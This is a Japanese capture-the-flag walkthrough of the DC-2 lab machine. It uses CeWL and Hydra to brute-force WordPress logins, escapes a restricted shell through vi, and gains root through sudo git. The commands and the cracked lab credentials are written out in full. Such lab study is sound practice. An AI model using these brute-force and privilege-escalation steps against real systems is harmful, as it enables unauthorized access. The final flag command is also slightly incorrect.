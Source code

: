 ## DC-2 454~
## 目的
- flag1 webサイト
- flag2 wordpress login
- flag3 ターゲットフォルダ
- flag4 ターゲットフォルダ
- finalflag rootフォルダ
- 合計5つのフラグを表示する

### ポートスキャンまでは同じ
  - ポートスキャン 80(http), 7744(ssh)
### WEBサイトを見る
- `192.168.56.104`でサイトを見ると`dc-2`に飛ばされる(リダイレクトと呼ぶ)
- 直すために`sudo vim /etc/hosts`に以下のように書き込む
- `192.168.56.104 dc-2`
- これはipアドレスにドメインネームを設定している
- サイトが開くのでflag1を見つける
- サイトを見てFLAGSを探す。3つヒントが書いてある。
- 1. Cewlを使う
  2. 1人でログイン
  3. 別名でログイン

### gobuster
- `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt`
  - `$URL`の代わりに`$IP`でもOK 
- `/wp-admin`があることがわかる

### ブラウザでチェックしてみる
- 先ほど取得した`/wp-admin`ディレクトリでサイトにアクセスしてみるとwordPressのダッシュボードの認証ページに飛ぶことがわかる。HTMLのコードを見ると、`/wp-login.php`にpostしているのがわかる
- それ以上は特にわからない

### wig
- `wig $URL`
- wordPressのバージョンやOSのバージョンがわかる
- `/wp-login.php`があるのがわかる
- それ以上は特にわからない


### Nmap NSE(wpscanでもできる cf690)
- wordPressのユーザを見つけることができる
- `nmap -p80 --script http-wordpress-users 192.168.56.104`
- userが3人であることがわかる
- users.txtを作る
  - `cat > users.txt` で３人の名前を書いて、改行して ctrl + c
  - ```
    admin
    jerry
    tom 
    ```
### CewL
- CewLは指定したWEBサイトをスクレイピングして、キーワードを辞書ファイルとして生成するツール
- Cewl install cf471
  - `/vulnhub/` 　フォルダに移動する
  - `git clone https://github.com/digininja/CeWL`
  - `cd CeWL`
  - `sudo gem install bundler`
  - `bundle install`
  - `chmod u+x ./cewl.rb`
- `./cewl.rb dc-2 -w ../cewl.txt`
  - パスが通っていないのでCewlフォルダに入って実行する
  - dc-2は/etc/hostsで設定したIPアドレスで、そこの対象のサイトをスクレイピングする
  - -wはファイルの書き込みを指定していて、一つ上のフォルダに指定している。絶対パスで自分の好きなとこにおいてもいい

### Hydra
- ダッシュボードの認証をhydraで突破する
- `hydra -L users.txt -P cewl.txt dc-2 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`
  - -L:ユーザリストを指定, -l:特定のユーザを指定
  - -P:パスワードリストを指定, -p:特定のパスワードを指定
  - logとpwdはwp-login.phpのソースコードを見るとわかる

### 認証情報
- 結果２人の情報がわかる

|ユーザ名|パスワード|
|:-|:-|
|admin|?|
|jerry|adipiscing|
|tom|parturient|

### WordPressのダッシュボードにアクセスする
  - `http://192.168.56.104/wp-admin/`
  - 二人のどちらかでNmapとHydraで得たuser,passwordを入力してアクセスする
  - Flag2を見つける 

### jerryでssh
- jerryでログインするが失敗する。jerryはwordpressのパスワードとsshのパスワードを使い回していない

### tomでSSH
- wordPressの投稿者がsshのユーザと仮定している
- tomでssh `ssh -p 7744 tom@$IP`
- passwordを入力

- `echo $PATH`で`ls $PATH`を見るとコマンドが４つしか使えない
- プロンプトが返ってくる `echo $SHELL`でrbashという制限が多いシェルだとわかる 

### 通常のシェルを使えるようにする
  - viは使えるのでGTFOBinsで`vi`でシェルを呼び出すのを見つける
  - viを呼び出す
  - `:set shell=/bin/sh`
  - Enterを押す
  - `:shell`
  - Enterを押す
  - `$`が出たら成功、これで通常のシェルが使えるようになる。答えを先に言っておくと、後でsuコマンドでjerryになれるようにするため

### シェルを確認する
- `echo $SHELL`
  - userのシェルの設定がわかる 
- `echo $0`
  - 実際に起動しているシェルがわかる
- 制限のあるrbashから通常のshのシェルになっている  

### 環境変数を設定する
  - 通常のコマンドが使えるようにPATHを追加する
  - `export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin/:/usr/bin:/sbin:/bin`
  - 確認する `echo $PATH`

### ユーザでsshする
- 複数の候補があった時に一番ルートが取れそうな権限の強いユーザの利用を目指す

### jerryでssh
  - ユーザを切り替え `su jerry`
  - suとsshのパスワードは違う。まえのパスワードはsuのパスワードだったようだ

### sudoコマンドの設定を調べる
- `sudo -l`
- 次の表示がされるが、これはgitをrootなしで使えることがわかる
  - `(root) NOPASSWORD: /usr/bin/git`
### git
- GTFOBinsでgitコマンドを利用して、root権限を取得する
- `sudo git -p help config`
- `:`と出てきたら成功で以下を入力
- `!/bin/sh`  
### Flagを取得
  - `cd /root | cat final-flag.txt` 
